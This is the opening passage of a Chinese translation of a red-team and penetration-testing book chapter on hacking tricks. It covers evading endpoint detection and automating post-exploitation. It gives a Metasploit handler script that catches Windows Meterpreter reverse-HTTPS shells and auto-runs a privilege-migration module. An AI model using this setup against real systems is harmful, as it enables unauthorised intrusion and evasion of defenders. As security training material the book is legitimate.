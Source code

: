 # 第8章 特勤组——破解、漏洞利用和技巧

> 译者：[@Snowming](https://github.com/Snowming04)
> 
> 校对者：[@鶇](http://wp.blkstone.me)、@哈姆太郎、@匿名jack

![](../images/chapter_8/8-1.png)

本章重点介绍了一些我个人发现的对红队和渗透测试都有用的不同资源。这些资源可能不会在每个模拟入侵行动中都用到，但对于特定场景或在某一次的案例中可能非常有用。

## 自动化
随着基于[启发式](https://baike.baidu.com/item/%E5%90%AF%E5%8F%91%E5%BC%8F/7365819)（heuristic-based）的端点保护变得越来越完善，我们的攻击需要变得更加迅速。我们通常可以编写恶意软件来躲避杀毒软件和绕过初始检测，但是一旦我们开始在内存中调用 `Mimikatz` 或者进行横向移动到其他主机，我们就会开始触发报警。为了解决这个问题，我总是告诉红队，我们的初步试探可以故意让蓝队捕获。因为通常情况下，蓝队在发现我们使用的默认/基础恶意软件（或者仅仅进行了轻微的混淆）时就会将此视为胜利，但我们的真正目的是了解他们的环境。这是通过我们的初始 payload 在受害者的机器上自动运行多个侦察脚本来实现的。在下一节中，我们将介绍一些可以使我们的一些攻击自动化的快速自动运行脚本。

### 使用 RC 脚本自动化运行 Metasploit
对于 Metasploit，我们可以使用以下方法高效地运行我们的后渗透利用脚本：
* 搜索 Metasploit 中所有的后渗透利用模块：
* msfconsole
* show post

从显示的结果中，选择你想要包含的所有模块，以便在接收到一个 Meterpreter Shell 时自动执行。在这个案例中，我们将为我们的攻击添加一个 [privilege	migrate](http://bit.ly/2vn1wFB) 后渗透模块。要配置 Meterpreter Shell 以便让它在受攻击主机的初始连接上运行此 payload，我们需要指定一个 `AutoRunScript` 参数。你可以根据需要添加尽可能多的 `AutoRunScripts` 参数来转储（dump）有关系统和网络的信息，然后横向移动,甚至更多！

创建处理程序 (Handler) 和 AutoRunScript：
* 创建处理程序文件
    * gedit handler.rc
* 配置处理程序和自动运行脚本
    * use multi/handler
    * set payload windows/meterpreter/reverse_https 
    * set LHOST 10.100.100.9
    * set LPORT 443
    * **set AutoRunScript post/windows/manage/priv_migrate**
    * set ExitOnSession false
    * set EnableStageEncoding true 
    * exploit -j
* 启动处理程序
    * msfconsole -r handler.rc
